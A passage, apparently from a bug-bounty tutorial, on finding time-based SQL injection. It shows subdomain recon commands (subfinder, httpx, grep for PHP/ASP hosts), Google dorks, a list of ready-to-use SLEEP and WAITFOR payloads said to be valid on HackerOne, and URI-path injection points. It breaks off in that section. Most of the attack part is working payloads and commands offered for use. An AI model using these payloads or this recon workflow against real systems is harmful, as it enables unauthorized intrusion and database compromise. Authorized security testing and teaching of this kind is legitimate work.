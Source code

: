 Alternatively,

```bash
subfinder -d domain.com -all -recursive > subs_domain.com.txt
cat subs_domain.com.txt | httpx -td -title -sc -ip > httpx_domain.com.txt
cat httpx_domain.com.txt | awk '{print $1}' > live_subs_domain.com.txt
cat live_subs_domain.com.txt | grep -i php
cat live_subs_domain.com.txt | grep -i asp  
```

![None](https://miro.medium.com/v2/resize:fit:700/1*nyaTWaxdUwhbXpUIKEXMYw.png)

Or directly hit the endpoint like a [Pro Dork Hunter](https://www.youtube.com/playlist?list=PLqOQy6wxttBju5pKnatxQRY3fTejOkgZ9)

```makefile
site:domain.com ext:php
site:domain.com ext:asp
site:domain.com ext:aspx
```

Now we need to find subdomains / endpoints where it is running on old technology like PHP , ASP, ASPX, which increases the probability that it is associated with traditional DBMS.

Below are the list of payloads specifically for time based sqli testing which are valid and reported on HackerOne using this.

```
0'XOR(if(now()=sysdate()%2Csleep(20)%2C0))XOR'Z

0'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z

if(now()=sysdate(),sleep(20),0)/*'XOR(if(now()=sysdate(),sleep(20),0))OR'"XOR(if(now()=sysdate(),sleep(20),0))OR"*/

1234 AND SLEEP(20)

';WAITFOR DELAY '00:00:05';--
```

If the parameter value is a number

```
paramname=1'-IF(1=1,SLEEP(20),0) AND paramname='1
```

### INJECTION POINTS 😈

Now where do we inject guys?

💉 = insert the payload here

#### URI Paths

```bash
GET /path1/path2/path3/path4 HTTP/2
POST /path1/path2/path3/path4 HTTP/2
GET /path1💉/path2💉/path3💉/path4💉 HTTP/2

GET /💉path1/💉path2/💉path3/💉path4 HTTP/2

POST /path1💉/path2💉/path3💉/path4💉 HTTP/2

POST /💉path1/💉path2/💉path3/💉path4 HTTP/2
```
